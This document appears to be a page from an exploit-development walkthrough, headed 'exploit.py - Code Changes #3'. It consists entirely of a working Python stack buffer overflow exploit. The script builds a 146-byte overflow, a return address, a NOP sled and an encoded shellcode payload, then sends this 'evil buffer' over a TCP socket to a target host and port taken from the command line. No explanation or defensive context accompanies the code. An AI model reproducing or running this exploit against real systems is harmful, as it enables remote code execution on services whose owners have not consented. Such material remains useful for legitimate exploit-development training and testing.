 #### **exploit.py - Code Changes #3**

```
import socket, time, sys

try:
	ip = str(sys.argv[1])
	port = int(sys.argv[2])
	print (ip+":"+str(port))

	prefix = ""
	offset = 146
	overflow = "A" * offset
	retn = "\xc3\x14\x04\x08"
	padding = "\x90" * 16
	payload = ("\xbf\xcf\x9b\x6b\xd8\xd9\xce\xd9\x74\x24\xf4\x5b\x2b\xc9\xb1"
"\x5b\x83\xc3\x04\x31\x7b\x10\x03\x7b\x10\x2d\x6e\x97\x30\x33"
"\x91\x68\xc1\x53\x1b\x8d\xf0\x53\x7f\xc5\xa3\x63\x0b\x8b\x4f"
"\x08\x59\x38\xdb\x7c\x76\x4f\x6c\xca\xa0\x7e\x6d\x66\x90\xe1"
"\xed\x74\xc5\xc1\xcc\xb7\x18\x03\x08\xa5\xd1\x51\xc1\xa2\x44"
"\x46\x66\xfe\x54\xed\x34\xef\xdc\x12\x8c\x0e\xcc\x84\x86\x49"
"\xce\x27\x4a\xe2\x47\x30\x8f\xce\x1e\xcb\x7b\xa5\xa0\x1d\xb2"
"\x46\x0e\x60\x7a\xb5\x4e\xa4\xbd\x25\x25\xdc\xbd\xd8\x3e\x1b"
"\xbf\x06\xca\xb8\x67\xcd\x6c\x65\x99\x02\xea\xee\x95\xef\x78"
"\xa8\xb9\xee\xad\xc2\xc6\x7b\x50\x05\x4f\x3f\x77\x81\x0b\xe4"
"\x16\x90\xf1\x4b\x26\xc2\x59\x34\x82\x88\x74\x21\xbf\xd2\x10"
"\x86\xf2\xec\xe0\x80\x85\x9f\xd2\x0f\x3e\x08\x5f\xd8\x98\xcf"
"\xd6\xce\x1a\x1f\x50\x9e\xe4\xa0\xa1\xb7\x22\xf4\xf1\xaf\x83"
"\x75\x9a\x2f\x2b\xa0\x37\x25\xbb\x41\xc2\xcf\x92\x3e\xd0\x2f"
"\xf4\xe2\x5d\xc9\xa6\x4a\x0e\x45\x07\x3b\xee\x35\xef\x51\xe1"
"\x6a\x0f\x5a\x2b\x03\xba\xb5\x82\x7c\x53\x2f\x8f\xf6\xc2\xb0"
"\x05\x73\xc4\x3b\xac\x84\x8b\xcb\xc5\x96\xfc\xab\x25\x66\xfd"
"\x59\x26\x0c\xf9\xcb\x71\xb8\x03\x2d\xb5\x67\xfb\x18\xc5\x6f"
"\x03\xdd\xfc\x04\x32\x4b\x41\x72\x3b\x9b\x41\x82\x6d\xf1\x41"
"\xea\xc9\xa1\x11\x0f\x16\x7c\x06\x9c\x83\x7f\x7f\x71\x03\xe8"
"\x7d\xac\x63\xb7\x7e\x9b\xf7\xb0\x81\x5e\xd0\x18\xea\xa0\x60"
"\x99\xea\xca\x60\xc9\x82\x01\x4e\xe6\x62\xea\x45\xaf\xea\x61"
"\x08\x1d\x8a\x76\x01\xc3\x12\x77\xa6\xd8\xa5\x02\xc7\xdf\x45"
"\xf3\xc1\xbb\x45\xf4\xed\xbd\x7a\x23\xd4\xcb\xbd\xf0\x63\xd3"
"\x23\xdc\x99\x7c\xfa\xb5\x23\xe1\xfd\x60\x67\x1c\x7e\x80\x18"
"\xdb\x9e\xe1\x1d\xa7\x18\x1a\x6c\xb8\xcc\x1c\xc3\xb9\xc4"
		)
	postfix = ""

	buffer = prefix + overflow + retn + padding + payload + postfix

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	try:
		s.connect((ip, port))
		print("Sending evil buffer...")
		s.send(bytes(buffer + "\r\n", "latin-1"))
		print("Done!")
	except:
 		print("Could not connect.")
except:
    print ("\nCould not connect!")
    sys.exit()
```
